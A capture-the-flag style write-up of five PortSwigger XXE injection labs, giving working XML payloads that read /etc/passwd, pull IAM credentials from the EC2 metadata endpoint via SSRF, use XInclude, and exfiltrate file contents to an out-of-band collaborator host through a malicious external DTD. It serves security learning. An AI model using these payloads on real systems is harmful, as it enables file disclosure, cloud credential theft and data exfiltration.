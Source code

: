 ![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ce19025d-089d-4ec1-95bb-98d739550540)![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3d36b6f5-0bb0-4061-993c-cf02487ebdb4)### XML-INJECTION (Portswigger labs)


### <u>Meaning of XML injection </u>
   XML means extensible markup language.It is a form of language designed for storing data and transporting data.It uses a tree-like structure for data storage.
It does not use predefined tags like html.Data can be given to describe the data.Xml applies important elements like xml entities,xml elements and
document type definition(DTD).The document type definition allows custom entities to declared within the declaration.There are two forms of custom entity.
- Custom Entities
- Custom External Entities
### Custom entities
For example

     <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
The value "my entity value" can be called with &myentity;
### Custom External entities
  External entities will lead us to the first portswigger challenge.This form of custom entities is declared outside the declaration.The example given below uses the keyword SYSTEM which requires a value in url format e.g file:/// url wrapper to load custom external entities.
For example

     <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
The file url can be used to read files like /etc/passwd etc

### Challenge 1

Challenge description: Read /etc/passwd by  exploiting XXE(XML External Entity)

![2023-10-18_14-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ab0f3280-ed81-4eb6-9059-916666c14bc2)

- I explored the site functionalities and I noticed that the site requests data was xml based.

  ![2023-10-18_20-56](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8a1000e6-653c-4296-b08e-7770d7d49c9d)

- I intercepted the check stock request with burpsuite and sent it to the repeater

![2023-10-18_20-59](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4d1cc80c-59a1-4b81-9f77-089634fb91fe)

- To read the file "/etc/passwd", I used this payload from hacktrickz.com

       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
        <stockCheck><productId>
         &example;
        </productId><storeId>1</storeId></stockCheck>
    
- And I got this a response from the server showing the contents of the /etc/passwd file
  
![2023-10-18_21-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6252eb19-98b1-4895-8fc0-1585b75c71ea)

- I right clicked on the repeater and showed response in browser and that was how I solved the first challenge

![2023-10-18_21-18](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e722aebe-a491-472b-8447-c14e3e14bf20)

### Challenge 2

Challenge description: Exploiting XXE to get SSRF attacks

![2023-10-18_21-25](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d805517a-8684-402e-b21d-ee368336884e)

- From the challenge description,It was stated that the "check stock" feature parses xml input.I intercepted the the request

![2023-10-18_21-33](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3b38d8ca-55f9-4e6c-9bb3-cbba95a42e38)

- I used this payload to get the secret token of the Amazon Ec2 metadata instance

       <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
      <stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>

- I got this response

![2023-10-18_21-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6dda8f15-06c7-42f5-a078-ef7a4ce4521d)

- Challenge solved

![2023-10-18_21-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/208c1e52-9adc-409d-a780-9b080b868849)

### Challenge3
Challenge description: Exploit Xinclude to retrieve file /etc/passwd

![2023-10-18_22-04](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6cdf1414-094c-48d2-a538-7626255a7b97)

- I sent the check stock feature request to the repeater,I noticed that it was not in xml format but just plain POST data

![2023-10-18_22-21](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9c09b928-c8d3-47f6-aba5-73f661da373e)

- I pasted this payload as the value of  the productID parameter

      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
  
- And I was able to read the contents of file /etc/passwd 

![2023-10-18_22-26](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8ca0c654-f7c7-4c90-9b23-f01e5e45dd7c)

### Challenge 4

Challenge description: Blind XXE by out-of-band interaction(Making a request to burp collaborator with XXE)

![2023-10-18_22-43](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/813ccb79-d43c-4f49-ad45-76e2d09ebb95)

- I fired up burp's collaboarator and copied the link


![2023-10-18_22-44](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4a52c176-b314-4c5d-96a9-2e5228e1d970)

- I used this payload

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://5z5ifxf7c0kn64v7atwvdyhsbjha54tt.oastify.com"> ]>
      <stockCheck><productId>
      &xxe;</productId><storeId>1</storeId></stockCheck>
  
- Then I sent this payload to the server
    
![2023-10-18_22-52](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0245328-7d0f-40fe-b614-a887d7a78dfa)

- I noticed that a request has been made to burp collaborator,Challenge solved

![2023-10-18_22-55](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/211832e4-b1e8-42f3-966a-c410ba2c0ebc)

### Challenge 5

Challenge's description: Exploiting blind XXE to exfiltrate data with malicious DTD

![2023-10-21_15-38](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b8327cf3-da92-4ad9-b4a1-c2b310b22875)

- The main goal of the challenge was to use the malicious DTD to exfiltrate the /etc/hostname file
- Portswigger provided an exploit server to host the malicious DTD

![2023-10-21_16-01](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8908e0e8-28fc-4e1f-b302-e2bd224b0f84)

- After intercepting the check stock request,I noticed that regular entities are not allowed.

   ![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/abeae0b5-ad52-4871-b45f-6330f11c42ba)

- You can bypass it by using parameter entities.A parameter entity is not like a regular entity because it can be called within the dtd and not within the xml tags.e.g

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/hostname" >] %xxe;>
- I hosted this payload on the portswigger exploit server to read the file "/etc/hostname" and also send the contents of the file to burp collaborator server

       <!ENTITY % file SYSTEM "file:///etc/hostname">
       <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM '<burp collaborator link>/?x=%file;'>">
       %eval;
       %exfiltrate;
- In burp repeater,I sent an xml request to induce the server to load the url hosted on Portswigger exploit server containing our malicious DTD file
  ![2023-10-21_16-22](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c144d8e1-762c-465f-b57b-0e29e0090fe4)

- Then,I received this token through burp collaborator server.

![2023-10-21_17-02](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/98f96dbb-91ac-4468-8885-cb4c53bbf5d3)

- I submitted the token and solved the challenge.

![2023-10-21_17-00](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bedca5f4-4116-4f43-926e-ec874ca7cd9b)

